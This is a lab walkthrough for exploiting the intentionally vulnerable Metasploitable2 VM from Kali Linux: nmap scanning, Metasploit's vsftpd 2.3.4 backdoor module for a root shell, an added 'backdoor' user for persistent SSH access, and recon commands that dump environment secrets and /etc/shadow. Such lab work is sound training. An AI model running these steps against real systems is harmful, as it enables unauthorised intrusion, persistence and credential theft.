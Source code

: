 # Metasploit Exploit Walkthrough

This markdown contains a detailed walkthrough of the steps taken during this project using Kali Linux and Metasploitable2.


## 1. Lab Setup

- Imported Kali Linux (attacker) and Metasploitable2 (target) into VMWare
- Set both VMs to host-only adapter mode
- Verified network connectivity using the following command from Kali:

  -> bash
      - ping 192.168.56.102

## 2. Scan and Identify Open Ports
  -> bash
      - nmap -sV 192.168.56.102 
      (This will show you available services (like FTP, Samba) on the target (Metasploitable2) VM.)

## 3. Exploit: vsftpd_234_backdoor
  -> bash
      - msfconsole
  Inside Metasploit: 
  -> bash
      - use exploit/unix/ftp/vsftpd_234_backdoor
      - set RHOSTS 192.168.56.102
      - run

  After execution, you’ll get a root shell via port 6200. You can confirm access with:
  -> bash
      - whoami

## 4. Post-Exploitation: Create a Backdoor User
  -> bash
      - adduser backdoor
      # if password setting does not automatically appear after this, type:
      - passwd backdoor  # and then set a password


## 5. SSH into Backdoored User
  From your Kali terminal:
  -> bash
      - ssh backdoor@192.168.56.102

  Use the password you set and confirm shell access:
  -> bash
      - whoami
      
## 6. Post Exploitation Recon Commands

  # 1. Check system info and kernel version
  uname -a

  # 2. See current user and UID
  whoami
  id

  # 3. View running processes (useful for finding services and privilege escalations)
  ps aux

  # 4. Check login users and session history
  w
  last

  # 5. Display network interfaces and IP configuration
  ifconfig
  # or for modern systems:
  ip a

  # 6. View open ports and listening services
  netstat -tulpn
  # or if not installed:
  ss -tulpn

  # 7. Review scheduled tasks (cron jobs)
  cat /etc/crontab
  ls -la /etc/cron.*

  # 8. List environment variables (check for misconfigurations or secrets)
  printenv

  # 9. Check installed software and version info
  dpkg -l
  # or if RPM-based:
  rpm -qa

  # 10. Explore user account info
  cat /etc/passwd
  cat /etc/shadow  # Requires root

